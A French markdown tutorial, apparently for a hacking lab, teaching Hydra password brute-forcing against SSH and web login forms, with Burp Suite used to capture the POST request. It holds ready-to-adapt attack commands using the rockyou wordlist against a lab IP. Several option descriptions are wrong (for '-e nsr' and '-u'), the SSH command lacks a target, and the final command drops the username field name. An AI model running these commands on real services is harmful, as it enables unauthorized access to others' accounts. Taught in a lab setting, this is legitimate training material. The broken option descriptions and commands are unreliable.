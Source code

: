 # Les bases de l'outil Hydra

## Introduction

Hydra est un outil puissant de bruteforce de mots de passe en ligne. Il peut être utilisé pour attaquer de nombreux protocoles différents !

## Utilisation

### Syntaxe

```bash
hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-SuvVd46] [service://server[:PORT][/OPT]]
```

### Options

TAG | Description
--- | ---
`-l LOGIN` ou `-L FILE` | identifiant ou fichier contenant une liste d'identifiants
`-p PASS` ou `-P FILE` | mot de passe ou fichier contenant une liste de mots de passe
`-C FILE` | fichier contenant des identifiants et des mots de passe séparés par des espaces
`-e nsr` | arrêter sur le premier succès, afficher les réponses négatives, afficher les réponses positives
`-o FILE` | enregistrer les résultats dans le fichier FILE
`-t TASKS` | exécuter TASKS nombre de tâches simultanément (valeur par défaut : 16)
`-M FILE` | serveurs multiples (fichier de liste)
`-T TASKS` | exécuter TASKS nombre de tâches simultanément par serveur (valeur par défaut : 16)
`-w TIME` | délai d'attente pour les réponses (valeur par défaut : 30)
`-W TIME` | délai d'attente global pour les réponses (valeur par défaut : 30)
`-f` | quitter après la première réponse positive
`-s PORT` | si le service est sur un autre port que le port par défaut, spécifiez-le ici
`-x MIN:MAX:CHARSET` | exécuter un bruteforce, avec des longueurs de mot de passe de MIN à MAX avec le jeu de caractères CHARSET
`-S` | connexion SSL
`-u` | connexion TLS
`-vV` | niveau de verbosité, -v : afficher les tentatives, -V : afficher les tentatives et les réponses
`-d` | afficher les informations de débogage
`-4` | force IPv4
`-6` | force IPv6



## Exemples

### SSH

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt -t 4 -vV
```
## Formulaires Web avec Hydra

Nous pouvons également utiliser Hydra pour forcer les formulaires web. Vous devez savoir quel type de requête est effectué ; les méthodes GET ou POST sont couramment utilisées. Vous pouvez utiliser l'onglet réseau de votre navigateur (dans les outils de développement) pour voir les types de requêtes ou afficher le code source.

```bash	
sudo hydra <username> <wordlist> 10.10.243.64 http-post-form "<path>:<login_credentials>:<invalid_response>"
```

Option | Description
--- | ---
`<username>` | le nom d'utilisateur pour la connexion (formulaire web)
`<wordlist>` | liste de mots de passe
`http-post-form`| le type de formulaire est POST
`<path>` | l'URL de la page de connexion, par exemple, `login.php`
`<login_credentials>` | le nom d'utilisateur et le mot de passe utilisés pour se connecter, par exemple, `username=^USER^&password=^PASS^`
`<invalid_response>` | partie de la réponse en cas d'échec de la connexion
`-V` | sortie verbeuse pour chaque tentative

### Exemple pour forcer un formulaire de connexion POST

```bash
hydra -l <username> -P <wordlist> 10.10.243.64 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

* La page de connexion n'est que `/`, c'est-à-dire l'adresse IP principale.
* Le `username` est le champ du formulaire dans lequel le nom d'utilisateur est saisi.
* Le(s) nom(s) d'utilisateur spécifié(s) remplacera(ont) `^USER^`
* Le `password` est le champ du formulaire dans lequel le mot de passe est saisi.
* Enfin,` F=incorrect` est une chaîne qui apparaît dans la réponse du serveur en cas d'échec de la connexion

#### Etape 1 : Trouver le formulaire de connexion

Le mieux est d'utiliser **burpsuite** pour intercepter la requête POST. Vous pouvez également utiliser l'onglet réseau de votre navigateur (dans les outils de développement) pour voir les types de requêtes ou afficher le code source. Avec Burp, ce qui nous intéresse c'est la tête qu'a la requête username+password.

* On lance burpsuite
* On active le proxy et on lance l'intercepter
* On se connecte au site avec un username et un password bidon
* On récupère sur burpsuite la requête envoyée
* On copie la forme de la requête exemple `username=mon&password=test`
* On envoie la requête pour ensuite récupérer le messager d'erreur, exemple : `Your username or password is incorrect.`

#### Etape 2 : Lancer l'attaque avec les infos regroupées

```bash
hydra -l pseudoAtester -P /usr/share/wordlists/rockyou.txt 10.10.243.64 http-post-form "/login:=^USER^&password=^PASS^:Your username or password is incorrect."
```
